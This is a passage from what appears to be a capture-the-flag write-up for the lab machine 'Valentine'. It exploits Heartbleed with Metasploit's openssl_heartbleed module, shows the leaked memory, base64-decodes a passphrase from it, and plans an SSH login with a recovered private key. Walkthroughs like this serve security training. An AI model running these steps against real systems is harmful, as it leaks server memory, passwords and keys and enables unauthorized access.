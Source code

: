 ```
https://blog.rapid7.com/2014/04/09/metasploits-heartbleed-scanner-module-cve-2014-0160/
```

```
$ msfconsole
msf > use auxiliary/scanner/ssl/openssl_heartbleed
msf auxiliary(openssl_heartbleed) > set RHOSTS 10.10.10.79
RHOSTS => 10.10.10.79
msf auxiliary(openssl_heartbleed) > set RPORT 443
RPORT => 443
msf auxiliary(openssl_heartbleed) > set VERBOSE true
VERBOSE => true
msf auxiliary(openssl_heartbleed) > run
[*] 10.10.10.79:443       - Sending Client Hello...
[*] 10.10.10.79:443       - Sending Heartbeat...
[*] 10.10.10.79:443       - Heartbeat response, 65535 bytes
[+] 10.10.10.79:443       - Heartbeat response with leak
[*] 10.10.10.79:443       - Printable info leaked:
```

Running several times and cycling through what appears to be random, useless
data.. eventually found the following strings that might mean something..

```
valentine.htb1.0...U....valentine.htb0...180206004525Z..190206004525Z0J1.0
```
```
...b9597dc55b21a2759b480fb102f9999a..
```
```
..ux i686; rv:45.0) Gecko/20100101 Firefox/45.0..Referer: https://127.0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.....e's*...>..;:K..
```

The last data fragment is interesting as it appears to be a fragment of an HTTP
request to decode.php which we came across earlier in our HTTP enumeration.
Since we determined that the decode/encode process was using base64, let's see
what the "$text=" parameter is..

```
$ echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```

Interesting.. maybe a password?

### OWN USER

##### SSH

Going back to the RSA private key that we found under `dev/hype_key` and
observing that SSH was enabled on the machine, let's see if we can use that
to `ssh` in? (making the guess that the user name is `hype` given the key was
called `hype_key`. (When we try to ssh in, we discover a passphrase is required
for the RSA private key.. which we try the string we found exploiting the
heartbleed vulnerability).
